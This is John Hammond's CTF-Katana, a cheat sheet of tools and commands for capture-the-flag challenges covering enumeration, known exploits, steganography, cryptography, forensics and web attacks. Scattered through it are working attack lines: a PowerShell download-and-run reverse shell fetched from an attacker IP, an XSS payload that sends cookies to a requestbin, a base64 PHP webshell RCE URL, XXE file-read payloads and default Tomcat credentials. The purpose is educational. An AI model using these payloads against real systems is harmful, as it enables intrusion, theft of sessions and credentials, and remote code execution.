



CTF-Katana
John Hammond | February 1st, 2018
This repository, at the time of writing, will just host a listing of tools and commands that may help with CTF challenges. I hope to keep it as a "live document," and ideally it will not die out like the old "tools" page I had made (https://github.com/USCGA/tools).
The formal tool that automates some of this low-hanging fruit checking is finally released. Katana is available at https://github.com/JohnHammond/katana. Pull-requests and contributions are welcome!
Table of Contents
- Post-Exploitation
- Port Enumeration
- 445 (smb/Samba)
- 1433 (Microsoft SQL Server)
- SNMP
- Microsoft Office Macros
- Retrieving Network Service Hashes
- Windows Reverse Shells
- Known Exploits
- Excess
- Esoteric Languages
- Steganography
- Cryptography
- Networking
- PHP
- PDF Files
- Forensics
- PNG File Forensics
- APK Forensics
- Web
- Reverse Engineering
- PowerShell
- Windows Executables
- Python Reversing
- Binary Exploitation/pwn
- VisualBasicScript Reversing
- Miscellaneous
- Jail Breaks
- Trivia
Post-Exploitation
-
If you need to use a program that is not on the box you just broke into, try and build a static binary! I've seen this used on Fatty for HackTheBox, getting a
ptywith the typicalpython -c 'import pty...'trick when it didn't have Python originally!
Port Enumeration
445 (smb/Samba)
-
smbmaptells you permissions and access, whichsmbclientdoes not do!To try and list shares as the anonymous user DO THIS (this doesn't always work for some weird reason)
smbmap -H 10.10.10.125 -u anonymous
Or you can attempt just:
smbmap -H 10.10.10.125
And you can specify a domain like so:
smbmap -H 10.10.10.125 -u anonymous -d HTB.LOCAL
Worth trying localhost as a domain, if that gets "NO_LOGON_SERVERS"
smbmap -H 10.10.10.125 -u anonymous -d localhost
enum4linux
enum4linux 10.10.10.125
smbclientNOTE: DEPENDING ON THE VERSION OF SMBCLIENT YOU ARE USING, you may need to SPECIFY the use of S<B version 1 or SMB version 2. You can dp this with
-m SMB2. Older versions of SMBclient (latest being 4.10 at the time of writing) use SMB1 by default.You can use
smbclientto look through files shared with SMB. To list available shares:
smbclient -m SMB2 -N -L //10.10.10.125/
Once you find a share you want to/can access, you can connect to shares by using the name following the locator:
smbclient -m SMB2 -N //10.10.10.125/Reports
You will see a smb: \> prompt, and you can use ls and get to retrieve files or even put if you need to place files there.
1433 (Microsoft SQL Server)
impacket->mssqlclient.pyYou can connect to a Microsoft SQL Server with
myssqlclient.pyknowing a username and password like so:
mssqlclient.py username@10.10.10.125
It will prompt you for a password. If your password fails, the server might be using "Windows authentication", which you can use with:
mssqlclient.py username@10.10.10.125 -windows-auth
If you have access to a Micosoft SQL Server, you can try and enable_xp_cmdshell to run commands. With mssqlclient.py you can try:
SQL> enable_xp_cmdshell
though, you may not have permission. If that DOES succeed, you can now run commands like:
SQL> xp_cmdshell whoami
SNMP
- snmp-check
snmp-check 10.10.10.125
Microsoft Office Macros
oletools->olevbaolevbacan look for Macros within office documents (which you should always check) with just supplying the filename:
olevba "Currency Volume Report.xlsm"
Retrieving Network Service Hashes
./Responder.py -I tun0
Windows Reverse Shells
-
If you have access to PowerShell, you can get a Reverse shell by using nishang's
Invoke-PowerShellTcp.ps1script inside of theShellsdirectory. Be sure to add the function call example to the bottom of your script, so all you need to to do to host it is (on your Attacker machine):
python -m SimpleHTTPServer
and then on the victim machine:
powershell IEX( New-Object Net.WebClient).DownloadString("http://10.10.14.6:8000/reverse.ps1") )
Also, if you want to have nice up and down arrow key usage within your Windows reverse shell, you can use the utility rlwrap before your netcat listener command.
rlwrap nc -lnvp 9001
Known Exploits
Java RMI
Metasploit module:
exploit/multi/misc/java_rmi_serverWhen testing this, responses are known to come back with an error or exception. Your code MAY VERY WELL still be executing. Try and run commands that include a callback. And use Python to live off the land and try avoid special characters, like
|pipes! ysoserial is a good tool for deserializing Java code to take advantage of this vulnerability.Heartbleed
Metasploit module:
auxiliary/scanner/ssl/openssl_heartbleedBe sure to use
set VERBOSE trueto see the retrieved results. This can often contain a flag or some valuable information.libssh - SSH
libssh0.8.1(or others??) is vulnerable to an easy and immediate login. Metasploit module:auxiliary/scanner/ssh/libssh_auth_bypass. Be sure toset spawn_pty trueto actually receive a shell! Thensessions -i 1to interact with the shell spawned (or whatever appropriate ID)Bruteforcing RDP
Bruteforcing RDP with
hydraorncrackis NOT ALWAYS ADVISABLE because of Cred-SSB. An option might be to script xrdp to automate against a password or word list... but THIS IS NOT TESTED.Apache Tomcat
If you can determine that you are working with an Apache Tomcat server (usually by visiting pages that do not exist and seeing a 404 error message), try to visit
/Manager, which is usually accessible on Tomcat. Possible credentials could betomcat:tomcat,tomcat:s3cr3t,admin:s3cr3t,root:s3cr3t, etc. etc.. Worthy of bruteforcing withhydra.If you see URLs are appended with a
.action(not a.do), you may be working with Apache Struts.Apache Struts
To identify the Apache Struts version is running,
Excess
-
Brute-force a Wi-Fi access point.
-
Tool to quickly spin up a Samba share.
-
Script to scan Windows Samba shares. VERY GOOD TO RUN FOR WINDOWS ENUMERATION.
Drupal drupalgeddon
Attack script for old or outdated Drupal servers. Usually very effective.
Esoteric Languages
-
An online tool that has a ton of Esoteric language interpreters.
Brainfuck
This language is easily detectable by its huge use of plus signs, braces, and arrows. There are plenty of online interpreters, like this one: https://copy.sh/brainfuck/ Some example code:
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.--.--------------.+++++++++++++.----.-----------
--.++++++++++++.--------.<------------.<++.>>----.+.<+++++++++++.+++++++++++++.>+++++++++++++++++.-------------
--.++++.+++++++++++++++.<<.>>-------.<+++++++++++++++.>+++..++++.--------.+++.<+++.<++++++++++++++++++++++++++
.<++++++++++++++++++++++.>++++++++++++++..>+.----.>------.+++++++.--------.<+++.>++++++++++++..-------.++.
COW
This language is easily identified by numerous "MOO" statements and random capitalization. It has an option on https://tio.run/.
-
An esoteric language that looks a lot like Base85... but isn't. Often has references to "Inferno" or "Hell" or "Dante." Online interpreters like so: http://www.malbolge.doleczek.pl/ Example code:
(=<`#9]~6ZY32Vx/4Rs+0No-&Jk)"Fh}|Bcy?`=*z]Kw%oG4UUS0/@-ejc(:'8dc
-
A graphical programming language... looks like large 8-bit pixels in a variety of colors. Can be interpreted with the tool
npiet

-
A joke language. Recognizable by
.and?, and!.
Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook! Ook! Ook? Ook! Ook? Ook.
Ook! Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook?
Ook! Ook! Ook? Ook! Ook? Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook.
-
A language intended to look like song lyrics github link.
below is fizzbuzz in Rockstar: ``` Midnight takes your heart and your soul While your heart is as high as your soul Put your heart without your soul into your heart
Give back your heart
Desire is a lovestruck ladykiller My world is nothing Fire is ice Hate is water Until my world is Desire, Build my world up If Midnight taking my world, Fire is nothing and Midnight taking my world, Hate is nothing Shout "FizzBuzz!" Take it to the top
If Midnight taking my world, Fire is nothing Shout "Fizz!" Take it to the top
If Midnight taking my world, Hate is nothing Say "Buzz!" Take it to the top
Whisper my world
Steganography
---------------------
* [StegCracker][StegCracker]
Don't ever forget about [`steghide`][steghide]! This tool can use a password list like `rockyou.txt` with steghide. SOME IMAGES CAN HAVE MULTIPLE FILED ENCODED WITH MULTIPLE PASSWORDS.
* [Steganography Online](http://stylesuxx.github.io/steganography/)
A tool often used in CTFs for encoding messages into images.
* [StegSeek][StegSeek]
This is similar to `stegcracker`, but _much_ faster. Can also extract metadata without a password list.
* [`steg_brute.py`](https://github.com/Va5c0/Steghide-Brute-Force-Tool)
This is similar to `stegcracker` above.
* [`openstego`][OpenStego]
A [Java][Java] [`.JAR`][JAR] tool, that can extract data from an image. A good tool to use on guessing challenges, when you don't have any other leads. We found this tool after the [Misc50](http://0xahmed.ninja/nullcon-hackim18-ctf-writeups/) challenge from [HackIM 2018](https://ctftime.org/event/566)
* [`Stegsolve.jar`][Stegsolve.jar]
A [Java][Java] [`.JAR`][JAR] tool, that will open an image and let you as the user arrow through different renditions of the image (viewing color channels, inverted colors, and more). The tool is surprisingly useful.
* [`steghide`][steghide]
A command-line tool typically used alongside a password or key, that could be uncovered some other way when solving a challenge.
* [`stepic`](http://domnit.org/stepic/doc/)
Python image steganography. Stepic hides arbitrary data inside PIL images. Download it here: http://domnit.org/stepic/doc/
* [Digital Invisible Ink Stego Tool](http://diit.sourceforge.net/)
A Java steganography tool that can hide any sort of file inside a digital image (regarding that the message will fit, and the image is 24 bit colour)
# WHEN GIVEN A FILE TO WORK WITH, DO NOT FORGET TO RUN THIS STEGHIDE WITH AN EMPTY PASSWORD!
* [ImageHide](https://www.softpedia.com/get/Security/Encrypting/ImageHide.shtml)
For PNG images (or BMP) images, there exists a Windows utility that can hide "ENCRYPTED" text within the LSB. If you also happen to have passwords, you can decrypt this and potentially find a flag. [https://www.softpedia.com/get/Security/Encrypting/ImageHide.shtml](https://www.softpedia.com/get/Security/Encrypting/ImageHide.shtml)
* [stegoVeritas](https://github.com/bannsec/stegoVeritas/)
Another steganography tool. A simple command-line tool and super easy to use -- definitely one to at least try.
* Unicode Steganography / Zero-Width Space Characters
Some text that may be trying to hide something, in a seemingly innocent way, like "Hmm, there may be something hiding here..." may include zero-width characters. This is a utility that might help: [https://330k.github.io/misc_tools/unicode_steganography.html](https://330k.github.io/misc_tools/unicode_steganography.html) ... Other options are just gross find and replace operations in Python IDLE.
* Online LSB Tools
There are many online LSB tools that work in different ways. If you are given a file that you know is part of a Least Significant Bit challenge, try these tools:
[https://manytools.org/hacker-tools/steganography-encode-text-into-image/](https://manytools.org/hacker-tools/steganography-encode-text-into-image/) Only supports PNG
[https://stylesuxx.github.io/steganography/](https://stylesuxx.github.io/steganography/)
* Other stego tools:
[https://github.com/DominicBreuker/stego-toolkit](https://github.com/DominicBreuker/stego-toolkit)
* [`zsteg`][zsteg]
Command-line tool for use against Least Significant Bit steganography... unfortunately only works against PNG and BMP images.
* [`jsteg`][jsteg]
Another command-line tool to use against JPEG images. [https://github.com/lukechampine/jsteg](https://github.com/lukechampine/jsteg) Handy for Hackerrank Codefest CTF 2018.
* [Jstego][Jstego]
A GUI tool for JPG steganography. [https://sourceforge.net/projects/jstego/](https://sourceforge.net/projects/jstego/) It is a [Java][Java] [JAR] file similar to stegsolve.jar
* Morse Code
Always test for this if you are seeing two distinct values... _it may not always be binary!_ Online decoders like so: [https://morsecode.scphillips.com/translator.html](https://morsecode.scphillips.com/translator.html). If you need to be case-sensistive or include a bit more stuff like numbers and punctuation, use this code: [https://gist.github.com/JohnHammond/961acabfd85a8715220fa79492b25368](https://gist.github.com/JohnHammond/961acabfd85a8715220fa79492b25368)
If you find Morsecode in the "international written form", like "dah-dit-dit-dah" etcetera, you can use this code: [https://gist.github.com/JohnHammond/7d3ddb167fa56f139dc4419091237b51](https://gist.github.com/JohnHammond/7d3ddb167fa56f139dc4419091237b51) ... which was carved out of this resource: [https://morsecode.scphillips.com/morse.html](https://morsecode.scphillips.com/morse.html)
* Whitespace
Tabs and spaces could be representing 1's and 0's and treating them as a binary message... or, they could be whitespace done with [`snow`][snow] or an esoteric programming language interpreter: [https://tio.run/#whitespace](https://tio.run/#whitespace)
* Audio Speed Change (also change pitch)
mplayer -af scaletempo -speed 64 flag.mp3
* DNA Codes
When given a sequence with only A, C, G, T , there is an online mapping for these. Try this:


* Extract Thumbnail (data is covered in original image)
If you have an image where the data you need is covered, try viewing the thumbnail:
exiftool -b -ThumbnailImage my_image.jpg > my_thumbnail.jpg
* [`snow`][snow]
A command-line tool for whitespace steganography (see above).
* SONIC Visualizer (audio spectrum)
Some classic challenges use an audio file to hide a flag or other sensitive stuff. SONIC visualizer easily shows you [spectrogram](https://en.wikipedia.org/wiki/Spectrogram). __If it sounds like there is random bleeps and bloops in the sound, try this tactic!__
* [Detect DTMF Tones]
Audio frequencies common to a phone button, DTMF: [https://en.wikipedia.org/wiki/Dual-tone_multi-frequency_signaling](https://en.wikipedia.org/wiki/Dual-tone_multi-frequency_signaling).
* Phone-Keypad
Some messages may be hidden with a string of numbers, but really be encoded with old cell-phone keypads, like text messaging with numbers repeated:

* [`hipshot`][hipshot]
A [Python] module to compress a video into a single standalone image, simulating a long-exposure photograph. Was used to steal a [QR code] visible in a video, displayed through "Star Wars" style text motion.
* [QR code]
A small square "barcode" image that holds data.
* [`zbarimg`][zbarimg]
A command-line tool to quickly scan multiple forms of barcodes, [QR codes] included. Installed like so on a typical [Ubuntu] image:
sudo apt install zbar-tools
* Punctuation marks `!`, `.` and `?`
I have seen some challenges use just the end of `.` or `?` or `!` to represent the [Ook](http://esolangs.org/wiki/ook!) esoteric programming language. Don't forget that is a thing!
Cryptography
-----------------
* Cryptii
[https://cryptii.com](https://cryptii.com) has multiple decoding tools like base64, Ceaser Cipher, ROT13, Vigenère Cipher and more.
* Keyboard Shift
[https://www.dcode.fr/keyboard-shift-cipher](https://www.dcode.fr/keyboard-shift-cipher) If you see any thing that has the shape of a sentence but it looks like nonsense letters, and notes some shift left or right, it may be a keyboard shift...
* Bit Shift
Sometimes the letters may be shifted by a stated hint, like a binary bit shift ( x >> 1 ) or ( x << 1 ).
* Reversed Text
Sometimes a "ciphertext" is just as easy as reversed text. Don't forgot to check under this rock! You can reverse a string in [Python] like so:
"UOYMORFEDIHOTGNIYRTEBTHGIMFTCA.TAHTTERCESASISIHT"[::-1]
* XOR
ANY text could be XOR'd. Techniques for this are Trey's code, and XORing the data against the known flag format. Typically it is given in just hex, but once it is decoded into raw binary data, it gives it keeps it's hex form (as in `\xde\xad\xbe\xef` etc..) Note that you can do easy XOR locally with Python like so (you need `pwntools` installed):
``` python
python >>> import pwn; pwn.xor("KEY", "RAW_BINARY_CIPHER")
IF YOU KNOW A DECENT CRIB (PLAINTEXT), USE CYBERCHEF TO HELP DETERMINE THE KEY
DO NOT FORGET TO JUST BRUTEFORCE JUST THE FIRST BYTE, OR TWO BYTES OR THREE BYTES.
Caesar Cipher
The most classic shift cipher. Tons of online tools like this: https://www.dcode.fr/caesar-cipher or use
caesaras a command-line tool (sudo apt install bsdgames) and you can supply a key for it. Here's a one liner to try all letter positions:cipher='jeoi{geiwev_gmtliv_ws_svmkmrep}' ; for i in {0..25}; do echo $cipher | caesar $i; doneBe aware! Some challenges include punctuation in their shift! If this is the case, try to a shift within all 255 ASCII characters, not just 26 alphabetical letters!
caesarA command-line caesar cipher tool (noted above) found in the
bsdgamespackage.-
If you have some text that you have no idea what it is, try the Atbash cipher! It's a letter mapping, but the alphabet is reversed: like
Amaps toZ,Bmaps toYand so on. There are tons of online tools to do this (http://rumkin.com/tools/cipher/atbash.php), and you can build it with Python. -
http://www.mygeocachingprofile.com/codebreaker.vigenerecipher.aspx, https://www.guballa.de/vigenere-solver and personal Python code here: https://pastebin.com/2Vr29g6J
Gronsfeld Cipher
A variant of the Vignere cipher that uses numbers insteads of letters. http://rumkin.com/tools/cipher/gronsfeld.php
Beaufourt Cipher
-
A substitution cipher that replaces each character with five characters from a set of two (A and B is used most of the time). If we look at A as 0 and B as 1 it is a special encoding to binary numbers, where the character A has the value of binary
b00000. Easy to recognize, because the ciphertext only contains two characters (e.g.: A and B) and the length of the ciphertext is divisible by 5. Example:AAABB AAABA ABBAB AAABB AABAA AAAAB AAAAA AAABA ABBAB ABBAA.[Online tool](http://rumkin.com/tools/cipher/baconian.php) Python random module cracker/predictor
https://github.com/tna0y/Python-random-module-cracker... helps attack the Mersenne Twister used in Python's random module.
Transposition Cipher
RSA: Classic RSA
Variables typically given:
n,c,e. ALWAYS try and give to http://factordb.com. Ifpandqare able to be determined, use some RSA decryptor; handmade code available here: https://pastebin.com/ERAMhJ1vRSA: Multi-prime RSA
When you see multi-prime RSA, you can use calculate
phiby still using all the factors.
phi = (a - 1) * (b - 1) * (c - 1) # ... etcetera
If FactorDB cannot find factors, try alpertron: https://www.alpertron.com.ar/ECM.HTM
RSA:
eis 3 (or small)If
eis 3, you can try the cubed-root attack. If you the cubed root ofc, and if that is smaller than the cubed root ofn, then your plaintext messagemis just the cubed root ofc! Here is Python code to take the cubed root:
def root3rd(x):
y, y1 = None, 2
while y!=y1:
y = y1
y3 = y**3
d = (2*y3+x)
y1 = (y*(y3+2*x)+d//2)//d
return y
RSA: Wiener's Little D Attack
The telltale sign for this kind of challenge is an enormously large
evalue. Typicallyeis either 65537 (0x10001) or3(like for a Chinese Remainder Theorem challenge). Some stolen code available here: https://pastebin.com/VKjYsDqDRSA: Boneh-Durfee Attack The tellgate sign for this kind of challenge is also an enormously large
evalue (eandnhave similar size). Some code for this attack can be found hereRSA: Chinese Remainder Attack
These challenges can be spotted when given mutiple
ccipher texts and multiplenmoduli.emust be the same number of givencandnpairs. Some handmade code here: https://pastebin.com/qypwc6wH-
This is an adaptation of RC4... just not. There is an implementation available in Python. https://github.com/dstein64/LC4/blob/master/documentation.md
Elgamal
Affine Cipher
Substitution Cipher (use quip quip!)
Railfence Cipher
-
racker: http://bionsgadgets.appspot.com/ww_forms/playfair_ph_web_worker3.html
Polybius Square
The Engima
http://enigma.louisedade.co.uk/enigma.html, https://www.dcode.fr/enigma-machine-cipher
AES ECB
The "blind SQL" of cryptography... leak the flag out by testing for characters just one byte away from the block length.
Two-Time Pad
International Code of Signals Maritime
First drafted by the British Board of Trade in 1855 and adopted as a world-wide standard on 1 January 1901. It is used for communications with ships, but also occasionally used by geocaching mystery caches (puzzle caches), CTFs and various logic puzzles. You may want to give a look at the tool maritime flags translator.

- Daggers Cipher
The daggers cipher is another silly text-to-image encoder. This is the key, and you can find a decoder on https://www.dcode.fr/daggers-alphabet.

- Hylian Language (Twilight Princess)
The Hylian language is another silly text-to-image encoder. This is the key, and you can find a decoder on https://www.dcode.fr/hylian-language-twilight-princess.
- Hylian Language (Breath of the Wild)
The Hylian language is another silly text-to-image encoder. This is the key, and you can find a decoder on https://www.dcode.fr/hylian-language-breath-of-the-wild.

- Sheikah Language (Breathe of the Wild)
The Sheikah language is another silly text-to-image encoder. This is the key, and you can find a decoder on https://www.dcode.fr/sheikah-language.

Networking
-
The go-to tool for examining
.pcapfiles. -
Seriously cool tool that will try and scrape out images, files, credentials and other goods from PCAP and PCAPNG files.
-
Not all tools like the PCAPNG file format... so you can convert them with an online tool http://pcapng.com/ or from the command-line with the
editcapcommand that comes with installing Wireshark:
editcap old_file.pcapng new_file.pcap
-
A command-line tool for reorganizing packets in a PCAP file and getting files out of them. Typically it gives no output, but it creates the files in your current directory!
tcpflow -r my_file.pcap
ls -1t | head -5 # see the last 5 recently modified files
-
A GUI tool to visualize network traffic.
PHP
Magic Hashes
A common vulnerability in PHP that fakes hash "collisions..." where the
==operator falls short in PHP type comparison, thinking everything that follows0eis considered scientific notation (and therefore 0). More valuable info can be found here: https://github.com/spaze/hashes, but below are the most common breaks.
| Plaintext | MD5 Hash |
|---|---|
| 240610708 | 0e462097431906509019562988736854 |
| QLTHNDT | 0e405967825401955372549139051580 |
| QNKCDZO | 0e830400451993494058024219903391 |
| PJNPDWY | 0e291529052894702774557631701704 |
| NWWKITQ | 0e763082070976038347657360817689 |
| NOOPCJF | 0e818888003657176127862245791911 |
| MMHUWUV | 0e701732711630150438129209816536 |
| MAUXXQC | 0e478478466848439040434801845361 |
| IHKFRNS | 0e256160682445802696926137988570 |
| GZECLQZ | 0e537612333747236407713628225676 |
| GGHMVOE | 0e362766013028313274586933780773 |
| GEGHBXL | 0e248776895502908863709684713578 |
| EEIZDOI | 0e782601363539291779881938479162 |
| DYAXWCA | 0e424759758842488633464374063001 |
| DQWRASX | 0e742373665639232907775599582643 |
| BRTKUJZ | 00e57640477961333848717747276704 |
| ABJIHVY | 0e755264355178451322893275696586 |
| aaaXXAYW | 0e540853622400160407992788832284 |
| aabg7XSs | 0e087386482136013740957780965295 |
| aabC9RqS | 0e041022518165728065344349536299 |
| 0e215962017 | 0e291242476940776845150308577824 |
| Plaintext | SHA1 Hash |
|---|---|
| aaroZmOk | 0e66507019969427134894567494305185566735 |
| aaK1STfY | 0e76658526655756207688271159624026011393 |
| aaO8zKZF | 0e89257456677279068558073954252716165668 |
| aa3OFF9m | 0e36977786278517984959260394024281014729 |
| Plaintext | MD4 Hash |
|---|---|
| bhhkktQZ | 0e949030067204812898914975918567 |
| 0e001233333333333334557778889 | 0e434041524824285414215559233446 |
| 0e00000111222333333666788888889 | 0e641853458593358523155449768529 |
| 0001235666666688888888888 | 0e832225036643258141969031181899 |
preg_replaceA bug in older versions of PHP where the user could get remote code execution
php://filterfor Local File InclusionA bug in PHP where if GET HTTP variables in the URL are controlling the navigation of the web page, perhaps the source code is
include-ing other files to be served to the user. This can be manipulated by using PHP filters to potentially retrieve source code. Example like so:
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index
data://text/plain;base64A PHP stream that can be taken advantage of if used and evaluated as an
includeresource or evaluated. Can be used for RCE: check out this writeup: https://ctftime.org/writeup/8868 ... TL;DR:
http://103.5.112.91:1234/?cmd=whoami&page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4=
PDF Files
pdfinfoA command-line tool to get a basic synopsis of what the PDF file is.
pdfcrackA comand-line tool to recover a password from a PDF file. Supports dictionary wordlists and bruteforce.
pdfimagesA command-line tool, the first thing to reach for when given a PDF file. It extracts the images stored in a PDF file, but it needs the name of an output directory (that it will create for) to place the found images.
-
A command-line tool to extract files out of a PDF.
Forensics
Python bytecode
uncompyle6To decompile bytecode, use
uncompyle6. There is one special argument (I think-dor something???) that can have success if the default operation does not work. Do not give up hope when working with obvious Python bytecode. EasyPythonDecompiler might work, or perhaps testing withuncompyleKeepass
keepassxcan be installed on Ubuntu to open and explore Keepass databases. Keepass databases master passwords can be cracked withkeepass2john.-
The starting values that identify a file format. These are often crucial for programs to properly read a certain file type, so they must be correct. If some files are acting strangely, try verifying their magic number with a trusted list of file signatures.
-
An online tool that allows you to modify the hexadecimal and binary values of an uploaded file. This is a good tool for correcting files with a corrupt magic number
-
A Python script to examine a
.mozillaconfiguration file, to examine downloads, bookmarks, history or bookmarks and registered passwords. Usage may be as such:
python dumpzilla.py .mozilla/firefox/c3a958fk.default/ --Downloads --History --Bookmarks --Passwords
Repair image online tool
Good low-hanging fruit to throw any image at: https://online.officerecovery.com/pixrecovery/
foremostA command-line tool to carve files out of another file. Usage is
foremost [filename]and it will create anoutputdirectory.
sudo apt install foremost
binwalkA command-line tool to carve files out of another file. Usage to extract is
binwalk -e [filename]and it will create a_[filename]_extracteddirectory.
sudo apt install binwalk
-
A command-line tool to carve out files of another file. Very similar to the other tools like
binwalkandforemost, but always try everything!
-
A command-line tool, used to recover deleted files from a file system image. Handy to use if given a
.ddand.imgfile etc. -
Another command-line utility that comes with
testdisk. It is file data recovery software designed to recover lost files including video, documents and archives from hard disks, CD-ROMs, and lost pictures (thus the Photo Recovery name) from digital camera memory. PhotoRec ignores the file system and goes after the underlying data, so it will still work even if your media's file system has been severely damaged or reformatted. [Analysis Image] ['https://29a.ch/photo-forensics/#forensic-magnifier']
Forensically is free online tool to analysis image this tool has many features like Magnifier, Clone Detection, Error Level analysis, Noise Analusis, level Sweep, Meta Data, Geo tags, Thumbnail Analysis , JPEG Analysis, Strings Extraction.
PNG File Forensics
pngcheckA command-line tool for "checking" a PNG image file. Especially good for verifying checksums.
https://github.com/sherlly/PCRT
Utility to try and correct a PNG file. NOTE... this will NOT SAVE your file as new one. YOU HAVE TO SHOW the file (enter y when using the script]) to actually view the new image.
APK Forensics
-
A command-line tool to extract all the resources from an APK file. Usage:
apktool d <file.apk>
-
A command-line tool to convert a J.dex file to .class file and zip them as JAR files.
-
A GUI tool to decompile Java code, and JAR files.
Web
robots.txtThis file tries to hide webpages from web crawlers, like Google or Bing or Yahoo. A lot of sites try and use this mask sensitive files or folders, so it should always be some where you check during a CTF. http://www.robotstxt.org/
-
A web browser plug-in that offers an easy interface to modifying cookies. THIS IS OFTEN OVERLOOKED, WITHOUT CHANGING THE VALUE OF THE COOKIES... BE SURE TO FUZZ EVERYTHING, INCLUDING COOKIE VALUES!
Backup pages (
~and.bakand.swp)Some times you may be able to dig up an old version of a webpage (or some PHP source code!) by adding the usual backup suffixes. A good thing to check!
/admin/This directory is often found by directory scanning bruteforce tools, so I recommend just checking the directory on your own, as part of your own "low-hanging fruits" check.
/.git/A classic CTF challenge is to leave a
gitrepository live and available on a website. You can see this withnmap -A(or whatever specific script catches it) and just by trying to view that specific folder,/.git/. A good command-line tool for this isGitDumper.sh, or just simply usingwget.Sometimes you might Bazaar or Mercurial or other distributed version control systems. You can use https://github.com/kost/dvcs-ripper for those!!
-
A command-line tool that will automatically scrape and download a git repository hosted online with a given URL.
Bazaar
.bzrIf you see a publically accessible
.bzrdirectory, you can usebzr branch http://site output-directoryto download it. Or, use this utility: https://github.com/kost/dvcs-ripper-
XSS Filter Evasion Cheat Sheet. Cross-site scripting, vulnerability where the user can control rendered HTML and ideally inject JavaScript code that could drive a browser to any other website or make any malicious network calls. Example test payload is as follows:
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
Typically you use this to steal cookies or other information, and you can do this with an online requestbin.
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
- new usefull XSS cheat sheet : 'https://portswigger.net/web-security/cross-site-scripting/cheat-sheet'
-
If you need to script or automate against a page that uses the I'm Under Attack Mode from CloudFlare, or DDOS protection, you can do it like this with linked Python module.
#!/usr/bin/env python
import cfscrape
url = 'http://yashit.tech/tryharder/'
scraper = cfscrape.create_scraper()
print scraper.get(url).content
-
A command-line tool for automated XSS attacks. Seems to function like how sqlmap does.
-
- A Ruby script to scan and do reconnaissance on a Wordpress application.
Mac AutoLogin Password Cracking
Sometimes, given an Mac autologin password file /etc/kcpassword, you can crack it with this code:
def kcpasswd(ciphertext):
key = '7d895223d2bcddeaa3b91f'
while len(key) < (len(ciphertext)*2):
key = key + key
key = binasciiunhexlify(key)
result = ''
for i in range(len(ciphertext)):
result += chr(ord(ciphertext[i]) ^ (key[i]))
return result
- XXE : XML External Entity
An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server. We try to display the content of the file /flag :
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///flag">
]>
<data>&file;</data>
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]><foo>&xxe;</foo>
Wordpress Password Hash Generator
If you make it into a Wordpress database and can change passwords, reset the admin password to a new hash: http://www.passwordtool.hu/wordpress-password-hash-generator-v3-v4. This will let you login to /wp-admin/ on the site.
Cookie Catcher
-
A free tool and online end-point that can be used to catch HTTP requests. Typically these are controlled and set by finding a XSS vulnerabilty.
-
A free tool and online end-point that can be used to catch HTTP requests. Typically these are controlled and set by finding a XSS vulnerabilty.
-
A command-line tool written in Python to automatically detect and exploit vulnerable SQL injection points.
Flask Template Injection
Try
{{config}}to leak out the secret key, or start to climb up the Python MRO to acheive code execution.https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html, https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html, https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
SQL
IFstatementsThese are handy for some injections and setting up some Blind SQL if you need to. Syntax is like
SELECT ( IF ( 1=1, "Condition successful!", "Condition errored!" ) )Explicit SQL Injection
- Blind SQL Injection
- MongoDB
Get MongoDB properly installed:
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv 9DA31620334BD75D9DCB49F368818C72E52529D4
echo "deb [ arch=amd64,arm64 ] https://repo.mongodb.org/apt/ubuntu xenial/mongodb-org/4.0 multiverse" | sudo tee /etc/apt/sources.list.d/mongodb-org-4.0.list
sudo apt-get update
sudo apt-get install -y mongodb-org
Connect to a remote server with credentials:
mongo --username 'uname' -p 'pword' --host hostname.com:27017
Print out the database info:
show databases
use <databasename>
show collections
c = db.<collectioname>
c.find()
- gobuster
DirBuster
nikto
- Burpsuite
AWS / S3 Buckets
You can try and dump an AWS bucket like so. The
--no-sign-requestavoids the need for credentials, and--recursivewill grab everything possible.
aws s3 cp --recursive --no-sign-request s3://<bucket_name> .
